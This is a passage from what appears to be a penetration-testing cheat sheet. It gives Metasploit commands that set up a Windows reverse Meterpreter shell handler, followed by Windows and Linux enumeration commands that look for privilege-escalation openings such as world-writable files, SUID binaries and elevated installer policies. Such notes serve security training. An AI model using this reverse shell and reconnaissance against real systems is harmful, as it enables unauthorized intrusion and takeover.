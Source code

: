 
Check if macro was embedded using `olevba word_macro.doc from [oletools](https://github.com/decalage2/oletools)

## Metasploit framework

### Windows reverse meterpreter shell

```sh
msfconsole -x "use exploit/multi/handler"; set RHOST 192.168.194.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.194; set LPORT 5555;
```

or

```sh
sudo msfconsole
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 192.168.119.194
> set LPORT 5555
> run
```

## Device enumeration

### Useful commands for windows clients:
- View user info: `net user`
- View system info: `systeminfo`
- View routing information: `route print`
- View running services: `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
- View active network connections: `netstat -ano`
- View current firewall profile: `netsh advfirewall show currentprofile`
    - View all firewall rules: `netsh advfirewall show rule name=all`
- View scheduled tasks: `schtasks /query /fo LIST /v`
- View all installed application with version: `wmic product get name, version, vendor`
    - View system wide updates: `wmic qfe Caption, Description, HotFixID, InstalledOn`
- View any file that can be modified by anyone using **powershell**: `Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- List all drives that are mounted and non-mounted: `mountvol`
- Gather kernel information in **powershell**: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Node', Path`
- Gather driver versions ie. vmware: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*Vmware*"}`
- Checking if we can run any windows installer with elevated priviledges: 
    - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
    - `reg query HKEY_CURRENT_MACHINE\Software\Policies\Microsoft\Windows\Installer`


### For linux client, commands that can be used:
- View all processes: `ps axu`
- Check all TCP/IP configurations: `ip a`
- Display network routing table: `/sbin/route`
- Display active network connections: `ss -anp`
- View scheduled tasks: `ls -lah /etc/cron*`
    - Crontab: `cat /etc/crontab`
- Listing installed packages: `dpkg -l`
- Find all directories writable by current user: `find / -writable -type d 2>/dev/null`
- List all mounted file systems: `mount`
    - static file system: `cat /etc/fstab` 
    - All available disks: `/bin/lsblk`
- Loaded kernel modules: `lsmod`
    - Find out more about module: `/sbin/modinfo <module_name>`
- Find any binaries that can be run as root: `find / -perm -u=s -type f 2>/dev/null`